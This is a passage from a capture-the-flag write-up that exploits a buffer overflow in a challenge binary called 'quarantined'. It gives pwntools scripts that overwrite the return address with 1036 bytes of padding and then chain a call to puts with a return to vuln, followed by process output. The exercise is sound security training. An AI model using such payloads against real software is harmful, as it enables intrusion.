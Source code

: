 ```py
from pwn import *
elf = ELF("./quarantined")
p = elf.process()
vuln = 0x8048562
p.sendlineafter("1+1\n",'a'*1036+p32(vuln)) # Test with 1028 + 8 input
print(p.recv()) # Print output
```

```
[x] Starting local process '/root/Downloads/wgmy/quarine/quarantined'
[+] Starting local process '/root/Downloads/wgmy/quarine/quarantined': pid 66124
Before you do something to this program, i need to have a sanity check.
please input 1+1

[*] Stopped process '/root/Downloads/wgmy/quarine/quarantined' (pid 66124)
```
Yes! Looks like we successfully execute `vuln` function!

Now lets try to use `puts` function to print something and return to `vuln` again

The payload should be `puts` + `vuln` + `string` based on the stack layout when calling function:
![image](stack-convention.png)

*EBP is puts, return address is vuln and string is 1st parameter*
```py
from pwn import *
elf = ELF("./quarantined")
p = elf.process()
vuln = 0x8048562
puts_plt = 0x80483c0
string = next(elf.search("1+1"))
p.sendlineafter("1+1\n",'a'*1036+p32(puts_plt)+p32(vuln)+p32(string))

print(p.recv())
```
```
1+1
Before you do something to this program, i need to have a sanity check.
```